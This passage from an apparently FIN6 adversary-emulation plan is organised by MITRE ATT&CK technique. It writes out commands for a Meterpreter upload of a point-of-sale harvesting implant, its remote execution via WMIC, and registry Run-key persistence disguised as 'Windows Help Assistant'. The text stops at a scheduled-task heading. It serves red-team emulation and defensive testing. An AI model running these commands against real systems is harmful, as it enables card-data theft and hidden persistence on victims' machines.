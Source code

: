 ```sh
remote-exec wmi #{POS system}
```

#### 5.2 Deploy POS implant to harvest POS data

```sh
meterpreter>upload #{Assistant32.exe} C:\Windows\temp
```

#### 5.3 Executing the POS implant using WMIC ([T1047](https://attack.mitre.org/techniques/T1047/))

FIN6 Procedure

```sh
wmic /node:#{"POS system"} process call create #{"executable"}
```

```sh
Example: wmic /node:"192.168.101.1" process call create "c:\windows\temp\Assistant32.exe -Proc iexplore"
```

#### 5.4 Persistence <sup>[3](https://www2.fireeye.com/rs/848-DID-242/images/rpt-fin6.pdf)</sup> <sup>[5](https://exchange.xforce.ibmcloud.com/threat-group/f8409554b71a79792ff099081bc5ac24)</sup> <sup>[7](https://blog.morphisec.com/new-global-attack-on-point-of-sale-systems)</sup> <sup>[9](https://securityintelligence.com/posts/more_eggs-anyone-threat-actor-itg08-strikes-again)</sup>

##### Registry Run Keys ([T1547.001](https://attack.mitre.org/techniques/T1547/001/))

FIN6 Procedure - DLL

```sh
"C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v #{ } /t REG_SZ /d #{ } "C:\#{ },#{ } /f
```

```sh
Example: "C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Windows Help Assistant" /t REG_SZ /d "rundll32.exe "C:\Windows\SysWOW64\0409\Assistant.dll",workerInstance" /f
```

Alternative Procedure - EXE

```sh
"C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Windows Help Assistant" /t REG_SZ /d "C:\Windows\temp\Assistant32.exe" /f
```

##### Scheduled Task ([T1053.005](https://attack.mitre.org/techniques/T1053/005/))

FIN6 Procedure - DLL
